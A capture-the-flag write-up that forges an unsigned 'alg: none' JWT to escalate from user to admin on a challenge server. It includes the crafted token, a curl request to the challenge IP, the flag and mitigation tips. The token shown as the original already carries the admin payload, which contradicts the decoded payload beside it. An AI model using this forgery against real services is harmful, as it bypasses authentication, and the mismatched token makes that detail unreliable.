 # 🔐 None Shall Pass – JWT alg: none Token Forgery

**Category:** Web Security\
**Points:** 200\
**Solves:** 418

---

### 🧠 Challenge Summary

Deep inside Juche Jaguar’s intranet runs a custom token-based gateway protecting their most sensitive files at `/secret`. We got access to a low-privileged user account (`agent:spudpotato`). The challenge was to obtain a token and escalate privileges using a vulnerability in how JWTs were handled.

---

### 🎯 Objective

Exploit a vulnerable JWT implementation to escalate privileges from `user` to `admin` and access the `/secret` endpoint.

```
http://34.85.163.182:8080/secret
```

---

### 🛠️ Tools & Techniques Used

- [jwt.io](https://jwt.io) (for decoding and inspecting JWTs)
- Web browser (initial login)
- Manual Base64 crafting
- `curl` for HTTP request
- Token manipulation (`alg: none` bypass)

---

### 🔍 Recon – Analyzing the JWT

After logging in with:

```
Username: agent
Password: spudpotato
```

A JWT appeared at the bottom of the login screen:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ.<<signature>>
```

We pasted it into [jwt.io](https://jwt.io) to decode:

#### Header:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

#### Payload:

```json
{
  "user": "agent",
  "role": "user"
}
```

The use of `HS256` implied HMAC signing and suggested a possible `alg: none` vulnerability.

---

### 🧪 Exploitation – `alg: none` Forged JWT

Some misconfigured libraries accept tokens using `alg: none`, skipping signature validation entirely.

#### 1. Forge JWT Header:

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

→ Base64: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0`

#### 2. Forge JWT Payload:

```json
{
  "user": "agent",
  "role": "admin"
}
```

→ Base64: `eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ`

#### 3. Combine:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ.
```

(Note: ends with a period to represent no signature)

---

### 🚀 Final Exploit Request

```bash
curl http://34.85.163.182:8080/secret \
  -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ."
```

---

### 🏁 Flag

```
C1{n0n3_4lg0_byp4ss}
```

---

### 🔒 Mitigation

- Reject tokens with `alg: none`
- Always validate the JWT algorithm against a whitelist (e.g., `HS256`, `RS256`)
- Use maintained JWT libraries with secure defaults

---

